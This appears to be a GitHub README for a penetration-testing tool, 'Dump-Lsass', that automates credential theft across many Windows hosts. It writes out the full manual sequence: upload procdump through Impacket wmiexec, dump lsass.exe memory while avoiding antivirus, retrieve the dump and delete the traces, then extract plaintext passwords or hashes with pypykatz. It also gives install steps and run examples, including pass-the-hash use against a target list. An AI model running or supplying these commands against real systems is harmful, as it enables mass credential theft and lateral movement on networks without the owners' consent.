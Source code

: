 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems. After dumping lsass, you should have an lsass.dmp file and a plaintext file with mimikatz (pypykatz) output for each host in the same directory 

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

```
wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit

pypykatz lsa minidump lsass.dmp
```
That's a very manual and time-consuming process when multiplied by many target hosts.

Prerequisites: Procdump64.exe must be in the same directory as the script, impacket at path /opt/impacket, smbclient, pypykatz.


To install prereqs:

Download procdump64.exe to the same directory as the script.

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket

cd /opt/impacket && pip install -r requirements.txt && python setup.py install

apt install -y smbclient

pip3 install pypykatz

Run examples:
```
python3 dumpLsass.py -d CONTOSO -u administrator -p Passw0rd\! -f </path/to/file with target IP addresses or hostnames.txt>
python3 dumpLsass.py -d CONTOSO -u administrator -H <NT Hash> -f </path/to/file with target IP addresses or hostnames.txt>
```

If pypykatz is unable to dump creds from the dump files, your target is most likely running a recent Windows build which pypykatz and mimikatz no longer works.

